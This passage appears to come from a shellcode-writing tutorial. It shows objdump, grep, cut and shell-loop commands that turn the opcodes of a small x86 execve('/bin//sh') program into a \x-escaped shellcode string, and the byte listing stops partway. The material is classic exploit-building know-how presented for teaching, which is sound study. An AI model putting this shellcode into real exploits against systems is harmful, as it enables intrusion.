 ```
    13:	89 e1                	mov    %esp,%ecx
    15:	b0 0b                	mov    $0xb,%al
    17:	cd 80                	int    $0x80
```
As you can see we from above we have our original assembly back (kind of). You
see those hex bytes that appear before our assembly instructions? Those are the
op codes that the CPU understands and those are what we need in our shellcode
string.

First we will need only the lines that contain instructions
```
  $ objdump -d execve.o | grep "^ "
     0:	31 c0                	xor    %eax,%eax
     2:	50                   	push   %eax
     3:	68 6e 2f 73 68       	push   $0x68732f6e
     8:	68 2f 2f 62 69       	push   $0x69622f2f
     d:	89 e3                	mov    %esp,%ebx
     f:	50                   	push   %eax
    10:	89 e2                	mov    %esp,%edx
    12:	53                   	push   %ebx
    13:	89 e1                	mov    %esp,%ecx
    15:	b0 0b                	mov    $0xb,%al
    17:	cd 80                	int    $0x80
```
Next we want just the second column or field
```
  $ objdump -d execve.o | grep "^ " | cut -f2
  31 c0
  50
  68 6e 2f 73 68
  68 2f 2f 62 69
  89 e3
  50
  89 e2
  53
  89 e1
  b0 0b
  cd 80
```
Then we want to iterate over each of these bytes and put the \x in front of
them. For loops to the rescue
```
  $ for i in $(objdump -d execve.o | grep "^ " | cut -f2); do echo '\x'$i; done
  \x31
  \xc0
  \x50
  \x68
  \x6e
  \x2f
  \x73
  \x68
  \x68
  \x2f
  \x2f
  \x62
  \x69
  \x89
  \xe3
  \x50
  \x89
  \xe2
  \x53
  \x89
  \xe1
```
